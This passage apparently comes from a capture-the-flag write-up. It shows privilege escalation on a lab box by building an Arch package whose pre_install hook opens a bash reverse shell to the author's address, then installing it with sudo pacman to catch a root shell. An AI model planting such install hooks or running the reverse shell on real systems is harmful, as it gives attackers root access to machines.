 The `install` [directive](https://wiki.archlinux.org/title/PKGBUILD#install) identifies a script with functions such as `pre_install`, `post_install`, etc, and these functions (if defined) are called during parts of the process. I’ll create a `shell.sh` in the same directory that gives a reverse shell before installing:

```

[paul@blockblock oxdf-install]$ ls
PKGBUILD  shell.sh
[paul@blockblock oxdf-install]$ cat shell.sh 
#!/bin/bash

pre_install() {
    bash -i >& /dev/tcp/10.10.14.6/443 0>&1
}

```

I’ll build it with `makepkg`, and then install with `sudo pacman -U`, and it hangs mid way:

```

[paul@blockblock oxdf-install]$ sudo /usr/bin/pacman -U oxdf-install-0.0.1-1-x86_64.pkg.tar.zst 
loading packages...
resolving dependencies...
looking for conflicting packages...

Packages (1) oxdf-install-0.0.1-1

:: Proceed with installation? [Y/n] 
(1/1) checking keys in keyring                                         [########################################] 100%
(1/1) checking package integrity                                       [########################################] 100%
(1/1) loading package files                                            [########################################] 100%
(1/1) checking for file conflicts                                      [########################################] 100%
(1/1) checking available disk space                                    [########################################] 100%
:: Processing package changes...

```

It hangs, and there’s a shell at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.43 44864
[root@blockblock /]# 

```
